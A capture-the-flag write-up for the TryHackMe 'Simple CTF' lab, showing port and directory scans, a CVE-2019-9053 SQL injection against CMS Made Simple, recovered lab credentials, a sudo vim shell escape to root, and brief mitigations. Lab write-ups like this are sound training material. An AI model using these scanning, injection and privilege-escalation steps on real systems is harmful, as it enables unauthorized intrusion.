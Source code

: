 ```yaml
---
description: Beginner level ctf
---
```


# Simple CTF

The room can be accessed [here](https://tryhackme.com/room/easyctf)

## Information Gathering

### Rustscan Scan

```bash
┌──(lvksus㉿kali)-[~]
└─$ rustscan -a 10.10.37.78 --ulimit 5000                                  1 ⨯
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/lvksus/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.37.78:21
Open 10.10.37.78:80
Open 10.10.37.78:2222
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:54 EST
Initiating Ping Scan at 22:54
Scanning 10.10.37.78 [2 ports]
Completed Ping Scan at 22:54, 2.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:54
Completed Parallel DNS resolution of 1 host. at 22:54, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:54
Scanning 10.10.37.78 [3 ports]
Discovered open port 21/tcp on 10.10.37.78
Discovered open port 2222/tcp on 10.10.37.78
Discovered open port 80/tcp on 10.10.37.78
Completed Connect Scan at 22:54, 1.45s elapsed (3 total ports)
Nmap scan report for 10.10.37.78
Host is up, received syn-ack (0.20s latency).
Scanned at 2022-02-01 22:54:19 EST for 1s

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
80/tcp   open  http         syn-ack
2222/tcp open  EtherNetIP-1 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.59 seconds
```

### Nmap Scan

```bash
┌──(lvksus㉿kali)-[~/Documents/tryhackme/simple_ctf]
└─$ nmap -sV 10.10.37.78                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:55 EST
Nmap scan report for 10.10.37.78
Host is up (0.090s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

## Enumeration

### Dirsearch

```bash
┌──(lvksus㉿kali)-[~]
└─$ dirsearch -u http://10.10.37.78 -w /usr/share/dirb/wordlists/common.txt -x 404 -t 100

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 4613

Output File: /home/lvksus/.dirsearch/reports/10.10.37.78/_22-02-01_23-11-21.txt

Error Log: /home/lvksus/.dirsearch/logs/errors-22-02-01_23-11-21.log

Target: http://10.10.37.78/

[23:11:21] Starting: 
[23:11:30] 200 -   11KB - /index.html                                       
[23:11:35] 200 -  929B  - /robots.txt                                       
[23:11:35] 403 -  299B  - /server-status                                    
[23:11:35] 301 -  311B  - /simple  ->  http://10.10.37.78/simple/           
                                                                             
Task Completed
```

![CMS Made Simple Version](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Made Simple Version.png>)

![CMS Made Simple Admin Login](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Admin Console.png>)

## Vulnerability Assessment

This Content Management System is vulnerable to [CVE-2019-9053: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9](https://www.exploit-db.com/exploits/46635)

### Proof of Concept&#x20;

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_POC.png>)

{% hint style="info" %}
Used this for termcolor issue

[https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/](https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/)
{% endhint %}

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Exploit (1).png>)

### Credentials

username: <mark style="color:green;">`mitch`</mark>\
email: <mark style="color:green;">`admin@admin.com`</mark>\
password: <mark style="color:green;">`secret`</mark>

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_ssh+user.txt.png>)

## Privilege Escalation

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Pasted image 20220202112308.png>)

[https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_sudo vim.png>)

```bash
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$ sudo /usr/bin/vim -c ':!/bin/bash'

root@Machine:/home# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:/home# 
```

## Root Flag

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_rootFlag.png>)

## Mitigations

### **Password Change**

The user 'Mitch' should change their password to something secure such as: <mark style="color:green;">`Jlds#5@asd53Z`</mark>

### **SQLi Sanitization**

* Client-Side and Server-Side input validation and sanitization
* Secure Coding & SDLC
